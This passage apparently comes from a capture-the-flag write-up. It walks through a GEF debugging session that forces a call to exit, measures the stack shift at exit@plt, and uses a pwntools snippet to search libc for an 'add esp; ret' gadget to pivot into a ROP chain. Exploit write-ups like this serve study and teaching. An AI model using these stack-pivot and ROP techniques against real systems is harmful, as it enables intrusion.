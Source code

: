 Using the existing debug session `maxflips` is set to:

```
gef➤  x/wx $ebp-0x24
0xff8b6854:	0x80000002
```

To set to `0x0` forcing `exit` to be called:

```
gef➤  set {int}($ebp-0x24) = 0x0
gef➤  x/wx $ebp-0x24
0xff8b6854:	0x00000000
```

Next, `ni` to `exit`, then at `call   0x8049080 <exit@plt>`, type `si`, the next instruction should be at `exit@plt+0`:

```
0x8049080 <exit@plt+0>     jmp    DWORD PTR ds:0x804c01c
```

Now look at the stack:

```
0xff8b6754│+0x0000: 0x0804944d  →   xchg ax, ax ← $esp
0xff8b6758│+0x0004: 0x00000000
0xff8b675c│+0x0008: 0x00000000
0xff8b6760│+0x000c: 0x00000000
0xff8b6764│+0x0010: 0x0804936d  →   mov eax, DWORD PTR [eax]
0xff8b6768│+0x0014: 0x0804944d  →   xchg ax, ax
0xff8b676c│+0x0018: 0x00000000
0xff8b6770│+0x001c: 0x00000000
```

If you look at stack before the exit, `$esp` was pointing to `0xff8b6768`, but now is pointing to `0xff8b6754`, a difference of 20 bytes.  We cannot write our payload above the stack, it'll get smashed by normal code execution.  And we cannot simply have `exit@plt` `jmp` to the stack since the NX is enabled.  We will need to find a gadget that will move `$esp` to our exploit and then on `ret` execute our ROP chain.

There are many `add esp, 0xNN; ret;` gadgets in `libc`, we just need to find one that moves the pointer at least 20 bytes, but not too far:

```python
# esp offset
esp = maxflips - 0xec
log.info('esp: ' + hex(esp))

# find add_esp gadget
offset=20
while True:
    try:
        add_esp = next(libc.search(asm('add esp, ' + hex(offset) + '; ret;')))
        log.info('add_esp: ' + hex(add_esp) + ' ' + hex(offset))
        break
    except:
        offset += 4
        continue
```
